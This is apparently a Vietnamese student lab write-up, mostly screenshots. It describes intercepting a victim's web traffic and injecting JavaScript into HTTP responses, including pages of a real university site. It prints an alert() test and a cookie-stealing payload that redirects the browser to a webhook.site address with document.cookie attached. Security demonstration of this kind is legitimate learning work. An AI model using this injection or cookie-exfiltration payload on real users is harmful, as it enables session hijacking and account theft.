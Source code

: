 ![ảnh](https://hackmd.io/_uploads/BJZWqVdCp.png)

- ở wireshark mình bắt được request này

![ảnh](https://hackmd.io/_uploads/H1JfdmdA6.png)

- chúng ta bắt được các thông báo 200 (khi trang được tải mới) và 304 (khi thông báo không có sự thay đổi của trang web)

![ảnh](https://hackmd.io/_uploads/Hkp7Om_06.png)

![ảnh](https://hackmd.io/_uploads/r1Eid7OCa.png)

- và script khai thác của chúng ta đã nhận diện xử lý gói tin từ máy victim đến máy của chúng ta

![ảnh](https://hackmd.io/_uploads/Sy2CuXu0p.png)

- tuy nhiên khi victim truy cập vào trang web ngoài internet ví dụ trang web của trường mình tại actvn.edu.vn

![ảnh](https://hackmd.io/_uploads/BJXlkE_Ra.png)

- và mình đã trigger thành công!!!!
- CTRL + U để view source code mình thấy đoạn javascript

```javascript!
<script>alert('Javascript Injected successfully!');</script>
```

đã được chèn vào HTTP response

![ảnh](https://hackmd.io/_uploads/rkaACX_Ca.png)

- ở phía attacker mình thấy thông báo đã thành công inject code vào máy victim ở đây với IP là 192.176.45.102

![ảnh](https://hackmd.io/_uploads/SkcramOC6.png)

mình xem gói tin bắt được trên wireshark ở máy attacker và thấy gói tin chứa trang login của actvn.edu.vn chưa bị thay đổi

- có thể thấy wireshark bắt các gói tin đầu vào khi chưa qua đoạn code xử lý gói tin của chúng ta

![ảnh](https://hackmd.io/_uploads/Sy7607uRT.png)

- bây giờ bài toán đã trở thành khai thác tương tự như XSS
  - và mình sẽ đánh cắp cookie của nạn nhân với script

```javascript!
<script>document.location="https://webhook.site/c7194fa6-1757-4100-92bb-aa8f9c5d91ae?lay_duoc_cookie="+document.cookie;</script>
```

đoạn payload sẽ chuyển hướng trình duyệt đến trang webhook của mình và gửi kèm theo cookie

![ảnh](https://hackmd.io/_uploads/B1n78BOAa.png)
